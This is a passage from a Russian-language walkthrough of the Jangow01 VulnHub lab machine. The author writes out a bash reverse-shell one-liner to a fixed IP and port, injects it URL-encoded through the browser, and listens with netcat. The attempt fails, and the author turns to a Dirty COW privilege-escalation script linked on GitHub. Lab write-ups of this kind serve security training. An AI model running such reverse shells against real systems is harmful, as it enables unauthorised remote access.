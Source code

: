 ![Untitled](01%20JANGOW01%20VirtualMachine%207768c6dee6074c69a76a4f864d573c84/Untitled%2020.png)

Далее нам нужно запустить удаленно этот скрипт. Для этого мы можем прокинуть reverse-shell чтобы удаленно попасть на сервер и там уже запустить этот скрипт.

Дальше я скрафтил следующий [reverse-shell](https://itsecforu.ru/2022/04/22/%F0%9F%95%B5%EF%B8%8F%E2%80%8D%E2%99%82%EF%B8%8F-%D1%80%D0%B0%D0%B7%D0%BD%D0%B8%D1%86%D0%B0-%D0%BC%D0%B5%D0%B6%D0%B4%D1%83-bind-shell-%D0%B8-reverse-shell/)
```bash
 'bash -i >& /dev/tcp/89.175.27.64/9999 0>&1’
```
  (Есть генератор реверс шеллок на все случаи жизни-> [revshells](https://www.revshells.com/))                                                                   
если мы введем в адресную строку этот скрипт, то он не сможет отработать, так как мы можем на доле секунду увидеть то, что наши некоторые знаки енкодятся в url и поэтому скрипт не правильно будет отображаться в системе и тем самым скрипт не отработает, как нужно. Поэтому берем скрипт → encode url и вводим в адресную строку и после этого прослушиваем nc -nvlp 9999 и нам должен вернуться коннект от сервера, но в моем случае этот вариант не работает. (не знаю с чем связанно).

И тут я попал в тупик. Посмотрев [райтап](https://testingonprod.com/2021/12/05/vulnhub-jangow-1-0-1-writeup/) на эту машину у **David Mentgen.** Он тоже попал в тупик, как и я на этом моменте. И он пошел по другому пути, залогиневшись в VM и там уже  продолжал пентестить тачку. Посмотрев далее он стал эксплотировать 
**[уязвимость Dirty COW](https://ru.wikipedia.org/wiki/%D0%A3%D1%8F%D0%B7%D0%B2%D0%B8%D0%BC%D0%BE%D1%81%D1%82%D1%8C_Dirty_COW) ←тык для ознакомления.** Эта уязвимость позволяла пользователю повысить права.

Ну пробуем его вариант.

 Для этого, нам нужно с **[github скачать скрипт](https://gist.github.com/scumjr/17d91f20f73157c722ba2aea702985d2)** 
